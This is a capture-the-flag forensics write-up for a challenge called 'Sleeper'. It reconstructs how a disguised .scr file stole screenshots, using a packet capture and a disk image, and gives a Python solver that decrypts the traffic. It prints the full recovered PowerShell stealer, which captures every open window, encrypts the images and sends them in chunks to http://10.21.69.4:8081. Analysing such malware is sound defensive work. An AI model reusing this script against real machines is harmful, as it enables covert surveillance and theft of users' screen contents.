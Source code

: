 ```yaml
---
title: Sleeper
icon: Fingerprint
---
```


### Description

Author: Blacowhait

Wareth is a person who always leaving her laptop without sleep, lock, or anything he doing self. He only depend to windows feature for automate handle her laptop. Someday he cant access her account! he said he dont do anything suspicious, but few hours ago he install an app for internet. Can you helpp?!

### Flag

`CJ{stealer_everywhere__becareful_what_in/on/at_internet}`

***

### Analysis

We are given a network packet capture file and an `ad1` image file. From the packet capture, we can infer that data is transmitted using HTTP through the query parameter. The last part of the key contains the index and the value contains the data itself.

![Query parameter from Wireshark](/sleeper_1.png)

After analyzing the disk image, we found new files on the `C:\Windows\SysWOW64` directory. One is a screensaver file and another an executable.

![Files on C:\Windows\SysWOW64](/sleeper_2.png)

The `chkmnt.exe` executable is just a normal screen capture application. But the `sconsvr.scr` file is interesting. Since `.scr` files are basically PE executables, we can reverse-engineer it using DNSpy.

From DNSpy, we found a resource called `ss-all-proc.ps1` inside the executable. This script will take a screenshot of every process, encrypts them using AES, and then sends it as an HTTP request just like the one we found on the packet capture.

Credits to **aster** for finding these files.

```powershell
function Encrypt-File {
    param (
        [string]$D783C0,
        [string]$6766A9,
        [string]$92EE28
    )

    Write-Output $6766A9
    Write-Output $92EE28

    $4099D1 = [System.Text.Encoding]::UTF8.GetBytes($6766A9)
    $68263A = [System.Text.Encoding]::UTF8.GetBytes($92EE28)

    if ($4099D1.Length -ne 16 -and $4099D1.Length -ne 24 -and $4099D1.Length -ne 32) {
        throw "ERROR"
    }
    if ($68263A.Length -ne 16) {
        throw "ERROR"
    }

    $88DB2B = New-Object "System.Security.Cryptography.AesManaged"
    $88DB2B.Key = $4099D1
    $88DB2B.IV = $68263A
    $88DB2B.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $88DB2B.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $BDAE58 = [System.IO.File]::ReadAllBytes($D783C0)

    $FF85F8 = $88DB2B.CreateEncryptor()
    $42B0F0 = $FF85F8.TransformFinalBlock($BDAE58, 0, $BDAE58.Length);
    [byte[]] $C81F44 = $88DB2B.IV + $42B0F0
    $88DB2B.Dispose()
    $res = [Convert]::ToBase64String($C81F44)
    return $res
}

# $processArray = Get-Process | Where-Object {$_.mainWindowTitle} | Select-Object ProcessName
$processArray = Get-Process | Where-Object { $_.MainWindowTitle } | Select-Object MainWindowTitle

foreach ($process in $processArray) {
    $tmp = $process.MainWindowTitle
    $filePath = "C:\Users\Public\Pictures\tmp.png"
    $command = "C:\Windows\SysWOW64\chkmnt.exe $filepath $tmp"
    Invoke-Expression $command

    $regValue = "HKCU:\Control Panel\Desktop"
    $value = (Get-ItemProperty -Path $regValue -Name "ScreenSaveTimeout")."ScreenSaveTimeout"
    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $key = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })
    Write-Output $key

    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $IV = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })

    $base64Encoded = Encrypt-File $filePath $key $IV
    $base64Encoded = $base64Encoded[2]
    $chunkSize = 1024
    $totalChunks = [math]::Ceiling($base64Encoded.Length / $chunkSize)
    $baseUrl = 'http://10.21.69.4:8081'

    for ($i = 0; $i -lt $totalChunks; $i++) { 
        $startIndex = $i * $chunkSize; $length = [math]::Min($chunkSize, $base64Encoded.Length - $startIndex)
        $chunk = $base64Encoded.Substring($startIndex, $length)
        $chunkUrlEncoded = [System.Net.WebUtility]::UrlEncode($chunk)
        $fullUrl = "${baseUrl}?vBRqSiWY$i=$chunkUrlEncoded"
	Write-Output $fullUrl
        $response = Invoke-RestMethod -Uri $fullUrl -Method Get
    }

    Remove-Item -Path $filePath
}

$scrnsave = "C:\Windows\SysWOW64\angi.exe"
Invoke-Expression $scrnsave
```

We can see that the IV will be prefixed when the data is sent using HTTP, but how do we actually get the key? Turns out the key and IV will be exactly the same, since we are using the same seed from the `HKCU:\Control Panel\Desktop\ScreenSaveTimeout` registry key.&#x20;

```powershell
# snip
    $value = (Get-ItemProperty -Path $regValue -Name "ScreenSaveTimeout")."ScreenSaveTimeout"
    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $key = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })
    Write-Output $key

    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $IV = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })
# snip
```

### Solution

The goal is that we need to decrypt the query parameter value from the HTTP packet using AES with the key and IV from the first 16 characters of the data, and assemble them based on the index on the query parameter key. After creating a script for that, we will get the flag from one of the screen captures.

![Screenshot containing the flag](/sleeper_3.png)

### Solver Script

```python
from scapy.all import *
from scapy.layers.http import *
from urllib.parse import unquote
from base64 import b64decode
from Crypto.Cipher import AES

res = [b""] * 1000
packets = rdpcap("./needsleeppls.pcap")
started = False
filecount = 1
key = b"EarWS9whYYeT2q8f"

for p in packets:
    if p.haslayer(IP) and p.haslayer(Raw):
        if p.getlayer(IP).dst == "10.21.69.4":
            payload = p.getlayer(Raw).load
            if b"GET /?vBRqSiWY" in payload:
                start = payload.index(b"=") + 1
                end = payload.index(b" HTTP")
                index_start = payload.index(b"WY") + 2
                index = int(payload[index_start:start-1])

                if index == 0 and started:
                    data = b64decode(b"".join(res))
                    data = data[16:]

                    cipher = AES.new(key, AES.MODE_CBC, key)
                    decrypted = cipher.decrypt(data)
                    with open(f"decrypted_{filecount}.png", "wb") as f:
                        f.write(decrypted)

                    res = [b""] * 1000
                    filecount += 1
                elif not started:
                    started = True

                payload = payload[start:end]
                payload = unquote(payload).encode("utf-8")

                res[index] = payload
```
